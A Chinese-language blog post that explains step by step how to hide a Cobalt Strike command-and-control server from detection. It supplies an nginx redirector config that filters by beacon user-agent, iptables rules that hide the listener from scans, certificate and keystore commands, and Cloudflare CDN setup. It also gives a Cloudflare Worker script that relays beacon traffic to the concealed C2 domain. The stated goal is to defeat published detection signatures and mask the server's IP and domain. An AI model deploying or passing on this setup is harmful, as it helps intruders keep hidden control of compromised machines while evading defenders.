









Cobalt Strike去特征：配置Nginx反向代理、CDN与Cloudflare Worker
本文最后更新于：1 个月前
前言
前段时间360公布了cobalt strike stage uri的特征，并且紧接着nmap扫描插件也发布了。虽说这个特征很早就被发现了，但最近因为工作需要，所以才有空来折腾一下。
关于隐藏cobalt strike的特征，网上有很多方法。例如nginx反代、域前置、修改源码等方法。本文主要从nginx反代、cloudflare cdn、cloudflare worker 这三个方面说一下如何隐藏cobalt strike stage uri的特征，以及进一步隐藏c2域名和IP的方法。并记录一下部署过程中遇到的坑点。
想了解域前置技术的小伙伴可以参考： Cobalt Strike 绕过流量审计。cloudflare无法使用域前置，因为它会校验SNI。目前不知到阿里云还行不行。本着匿名，加上cloudlfare免费、对国外访问支持比较好的特点，所以选择了cloudflare。
部署Nginx反向代理及https
如果在cobalt strike的c2 malleable配置文件中没有自定义http-stager的uri。默认情况下，通过访问默认的uri，就能获取到cs的shellcode。加密shellcode的密钥又是固定的(3.x 0x69，4.x 0x2e)，所以能从shellcode中解出c2域名等配置信息。如图是nmap扫描插件的扫描结果。

这个特征解决方法有很多，比如：
修改源码修改加密的密钥。（可参考：Bypass cobaltstrike beacon config scan）
如果平常用的是stageless的shellcode（也就是200多k的shellcode），用不到stager的话，可以直接在malleable配置文件中set host_stage “false”，或着直接在cs中将stager，和stager64给关了。

还有一种方法就是接下来介绍的：设置iptables，只允许localhost访问cs listener监听的端口。将外部请求通过nginx转发到localhost上的listener。还可以在nginx上设置过滤规则来允许特定请求。
配置/etc/nginx/nginx.conf文件。
这里你可以自己根据cs配置文件或者直接利用：通过cs malleable配置文件生成nginx.conf 进行配置。cs的mallebale 配置文件我用的是jquery-c2.4.0.profile。
在nginx.conf中还可以添加对user-agent的校验，只有cs的shellcode才能访问到stage uri。
location ~ ^(/jquery-3.3.1.slim.min.js.*|/jquery-3.3.2.min.js.*|/jquery-3.3.1.min.js.*|/jquery-3.3.2.slim.min.js.*)$ {
if ($http_user_agent != "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko") {
return 302 $REDIRECT_DOMAIN$request_uri;
}
proxy_pass $C2_SERVER;
# If you want to pass the C2 server's "Server" header through then uncomment this line
# proxy_pass_header Server;
expires off;
proxy_redirect off;
proxy_set_header Host $host;
proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
proxy_set_header X-Real-IP $remote_addr;
}申请免费https证书
使用letsencrypt申请非常方便。使用官方推荐的工具Certbot - Debianstretch Nginx，根据选择你自己的系统版本，根据教程几行命令搞定。
注意：提前在nginx.conf 配置文件中设置好server name img.xxx.com,。certbot会自动读取配置文件中的域名，并为它申请证书。生成的证书文件存储在：/etc/letsencrypt/live/img.xxx.com/目录下。
在nginx配置文件中启用证书。
#####################
# SSL Configuration
#####################
listen 443 ssl;
listen [::]:443 ssl;
ssl on;
ssl_certificate /etc/letsencrypt/live/img.xxx.com/fullchain.pem; # managed by Certbot
ssl_certificate_key /etc/letsencrypt/live/img.xxx.com/privkey.pem; # managed by Certbot
ssl_session_cache shared:le_nginx_SSL:1m; # managed by Certbot
ssl_session_timeout 1440m; # managed by Certbot
ssl_protocols TLSv1 TLSv1.1 TLSv1.2; # managed by Certbot
ssl_prefer_server_ciphers on; # managed by Certbot为cobalt strike 配置证书
- 生成img.xxx.com.store文件
openssl pkcs12 -export -in /etc/letsencrypt/live/img.xxx.com/fullchain.pem -inkey /etc/letsencrypt/live/jimg.xxx.com/privkey.pem -out img.xxx.com.p12 -name img.xxx.com -passout pass:123456keytool -importkeystore -deststorepass 123456 -destkeypass 123456 -destkeystore img.xxx.com.store -srckeystore img.xxx.com.p12 -srcstoretype PKCS12 -srcstorepass 123456 -alias img.xxx.com将生成的img.xxx.com.store放到cs目录下，修改teamserver文件最后一行,将cobaltstrike.store修改为img.xxx.com.store和store文件对应的密码。
（有必要的话，把端口号也可以改了并设置iptables只允许特定ip访问）
java -XX:ParallelGCThreads=4 -Dcobaltstrike.server_port=40120 -Djavax.net.ssl.keyStore=./img.xxx.com.store -Djavax.net.ssl.keyStorePassword=123456 -server -XX:+AggressiveHeap -XX:+UseParallelGC -classpath ./cobaltstrike.jar server.TeamServer $*- 将 keystore 加入 Malleable C2 profile 中
https-certificate {
set keystore “img.xxx.com.store”;
set password “123456”;
}然后启动cs设置listener。
这里https port(bind):设置的8022（cs会把端口开在8022），在nginx配置文件中的将proxy_pass设置为：https://127.0.0.1:8022。

开启listener之后设置iptables，只允许127.0.0.1访问。这下nmap也就扫不出来了。
iptables -A INPUT -s 127.0.0.1 -p tcp --dport 8022 -j ACCEPT
iptables -A INPUT -p tcp --dport 8022 -j DROP到此为止，隐藏cobalt strike特征的设置就暂时告一段落，下面继续说如何隐藏cs服务器ip和域名。
cobalt stirke 配置cloudflare cdn
部署cdn是为了隐藏cs服务器的真实ip，以cloudflare的免费cdn为例，过程也非常简单。
- 添加域名

- 选择免费版本，设置要加速的子域名，并在你的域名服务商处修改域名解析dns为cloudflare的dns。

- 经过cloudflare验证成功后，在进行多地ping，看一下生效没有。
cloudflare缓存
cloudflare能开启开发模式，来禁用缓存，但是只有3个小时。可以通过页面规则来永久设置缓存规则。

因为cs配置文件中设置的uri都是js结尾的，所以这里使用*js来匹配所有uri。坑点
配置完cdn后，会发现机器能上线，但是执行命令无回显。这个问题困扰了我好半天，一直以为是cloudlflare缓存配置问题，然而禁用缓存后问题依旧存在。最后逐步定位到是cs配置文件的问题。
我用的是jquery-c2.4.0.profile配置文件，它设置header "Content-Type" "application/javascript; charset=utf-8";为响应头。修改所有响应头为：header "Content-Type" "application/*; charset=utf-8";即可正常执行命令回显。
这里的mime-type如果为application/javascript、text/html等，机器执行命令就无法回显。我怀疑是cdn会检测响应头content-type的值，如果是一些静态文件的mime-type可能就导致这个问题。
至此，cdn就配置完了。并且能通过cdn正常上线。
配置cloudflare worker
如果能找到能进行域前置技术的cdn，推荐还是使用域前置。cloudfalre worker可以说只是一个替代品。
cloudflare worker能够执行无服务器函数，免费用户有10万请求/每天的额度。并且你能自定义workers.dev的子域。我们可以编写js处理以及转发请求。

js脚本如下，需要设置X-Forwarded-For头，不然上线的ip是worker的ipv6地址。
let upstream = 'https://img.xxx.com'
addEventListener('fetch', event => {
event.respondWith(fetchAndApply(event.request));
})
async function fetchAndApply(request) {
const ipAddress = request.headers.get('cf-connecting-ip') || '';
let requestURL = new URL(request.url);
let upstreamURL = new URL(upstream);
requestURL.protocol = upstreamURL.protocol;
requestURL.host = upstreamURL.host;
requestURL.pathname = upstreamURL.pathname + requestURL.pathname;
let new_request_headers = new Headers(request.headers);
new_request_headers.set("X-Forwarded-For", ipAddress);
let fetchedResponse = await fetch(
new Request(requestURL, {
method: request.method,
headers: new_request_headers,
body: request.body
})
);
let modifiedResponseHeaders = new Headers(fetchedResponse.headers);
modifiedResponseHeaders.delete('set-cookie');
return new Response(
fetchedResponse.body,
{
headers: modifiedResponseHeaders,
status: fetchedResponse.status,
statusText: fetchedResponse.statusText
}
);
}
点击保存部署，访问xxx.youtobe-mail.workers.dev域名，看看是否正常。然后在listener中设置

到此设置完毕。
之后通信的请求都是通过xxx.xxx.workers.dev进行的，隐藏了真实域名。并且shellcode通信的ip地址也是cloudflare的ip。
参考链接：
- Cobalt Strike 绕过流量审计 ↩
- 利用Cloudflare Worker来隐藏C2基础设施 - FreeBuf网络安全行业门户 ↩
- 关于Cobalt Strike检测方法与去特征的思考 - 安全内参 | 决策者的网络安全知识库 ↩
- CS 合法证书 + Powershell 上线 ↩
- GitHub - threatexpress/cs2modrewrite: Convert Cobalt Strike profiles to modrewrite scripts ↩
- malleable-c2/jquery-c2.4.0.profile at master · threatexpress/malleable-c2 · GitHub ↩
本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！